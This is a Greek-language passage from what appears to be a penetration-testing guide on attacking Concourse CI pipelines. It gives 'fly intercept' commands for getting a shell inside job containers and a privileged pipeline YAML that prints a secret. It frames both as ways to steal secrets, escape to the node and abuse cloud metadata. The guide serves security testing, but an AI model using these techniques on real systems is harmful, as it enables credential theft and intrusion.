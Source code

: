 #### Απαρίθμηση μυστικών και παραμέτρων

Στην προηγούμενη ενότητα είδαμε πώς μπορείτε να **πάρετε όλα τα ονόματα και τις μεταβλητές των μυστικών** που χρησιμοποιούνται από την pipeline. Οι **μεταβλητές μπορεί να περιέχουν ευαίσθητες πληροφορίες** και το όνομα των **μυστικών θα είναι χρήσιμο αργότερα για να προσπαθήσετε να τα κλέψετε**.

#### Συνεδρία μέσα σε τρέχον ή πρόσφατα τρέχον δοχείο

Αν έχετε αρκετά δικαιώματα (**ρόλος μέλους ή περισσότερα**) θα μπορείτε να **καταγράψετε pipelines και ρόλους** και απλά να αποκτήσετε μια **συνεδρία μέσα** στο `<pipeline>/<job>` **δοχείο** χρησιμοποιώντας:
```bash
fly -t tutorial intercept --job pipeline-name/job-name
fly -t tutorial intercept # To be presented a prompt with all the options
```
Με αυτές τις άδειες μπορεί να είστε σε θέση να:

* **Κλέψετε τα μυστικά** μέσα στο **container**
* Προσπαθήσετε να **διαφύγετε** στη node
* Αριθμήσετε/Καταχραστείτε το **cloud metadata** endpoint (από το pod και από τη node, αν είναι δυνατόν)

#### Δημιουργία/Τροποποίηση Pipeline

Αν έχετε αρκετά προνόμια (**ρόλος μέλους ή περισσότερα**) θα μπορείτε να **δημιουργήσετε/τροποποιήσετε νέα pipelines.** Ελέγξτε αυτό το παράδειγμα:
```yaml
jobs:
- name: simple
plan:
- task: simple-task
privileged: true
config:
# Tells Concourse which type of worker this task should run on
platform: linux
image_resource:
type: registry-image
source:
repository: busybox # images are pulled from docker hub by default
run:
path: sh
args:
- -cx
- |
echo "$SUPER_SECRET"
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
Με την **τροποποίηση/δημιουργία** μιας νέας ροής εργασίας θα μπορείτε να:

* **Κλέψετε** τα **μυστικά** (μέσω της εκτύπωσής τους ή μπαίνοντας μέσα στο κοντέινερ και εκτελώντας `env`)
* **Δραπετεύσετε** στη **μονάδα** (δίνοντάς σας αρκετά δικαιώματα - `privileged: true`)
* Αριθμήσετε/Καταχραστείτε το **cloud metadata** endpoint (από το pod και από τη μονάδα)
* **Διαγράψετε** τη δημιουργημένη ροή εργασίας
